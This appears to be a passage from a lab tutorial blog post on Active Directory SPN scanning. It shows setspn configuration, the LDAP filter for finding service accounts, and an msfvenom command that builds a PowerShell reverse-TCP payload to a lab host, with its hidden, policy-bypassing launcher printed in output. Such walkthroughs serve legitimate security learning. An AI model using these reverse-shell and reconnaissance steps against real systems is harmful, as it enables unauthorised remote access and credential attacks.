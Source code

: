 > A service principal name (SPN) is the name by which a client uniquely identifies an instance of a service. If you install multiple instances of a service on computers throughout a forest, each instance must have its own SPN.

Basically, what this means is that someone went and configured a SPN for a service account that is used by multiple by instances of a service. Each of the client PC's in my lab are running an instance of [SQL Server 2014 Express](https://www.microsoft.com/en/server-cloud/products/sql-server-editions/sql-server-express.aspx), configured to run with the `svcSQLServ` domain service account.

> When a client wants to connect to a service, it locates an instance of the service, composes an SPN for that instance, connects to the service, and presents the SPN for the service to authenticate.

On my domain controller, I configured the SPN's with the following commands:

``` html
PS C:\> setspn -A svcSQLServ/pc1.foo.local:1433 foo\svcSQLServ
Checking domain DC=foo,DC=local

Registering ServicePrincipalNames for CN=SQL Server,OU=Service Accounts,DC=foo,DC=local
        svcSQLServ/pc1.foo.local:1433
Updated object

PS C:\> setspn -A svcSQLServ/pc2.foo.local:1433 foo\svcSQLServ
Checking domain DC=foo,DC=local

Registering ServicePrincipalNames for CN=SQL Server,OU=Service Accounts,DC=foo,DC=local
        svcSQLServ/pc2.foo.local:1433
Updated object
```

## spn scanning - the offensive perspective
Right, with the configuration done, lets put on our offensive hats and try and abuse this. I think one thing that one should realize is that this is a very nice way to get a _free port scan_ done too. You will see in a moment. =]

Reading some posts and stuff online, I have found a PowerShell module that will prep the LDAP lookup and scan for SPNs for you [here](https://github.com/PyroTek3/PowerShell-AD-Recon/blob/master/Find-PSServiceAccounts). The gist of it is this LDAP search `(&(objectcategory=user)(serviceprincipalname=*))`.

To use the powershell module, the easiest will be to get an interactive powershell session up and running. If you have ever tried this from meterpreter, you will know that if you try and spawn `powershell.exe` from a cmd shell, you will not get anywhere. Very frustrating. Its not impossible though! We are however going to go through the efforts of getting a working PowerShell session up as we will be using it extensively throughout this post.

### setup a powershell connection
We can use the meterpreter session to get a powershell session. First, we will create a payload to execute as a script using the `exec_powershell` post module. In a new terminal, run `msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.138.150 LPORT=4445 -t raw`:

```bash
root@kali:~# msfvenom -p windows/powershell_reverse_tcp LHOST=192.168.138.150 LPORT=4445 -t raw
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1727 bytes
���`��1�d�P0�R
�8�u�}�;}$u�X�X$�f�Y ӋI�:I�4��1����
                      K�XӋ�ЉD$$[[aYZQ��__Z���]j���Ph1�o��ջ���Vh������<|
���u�GrojS��powershell.exe -exec bypass -nop -W hidden -noninteractive IEX $($s=New-Object IO.MemoryStream(,[Convert]::FromBase64String('H4sIABX0kF ... snip ... AAA='));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();)
```

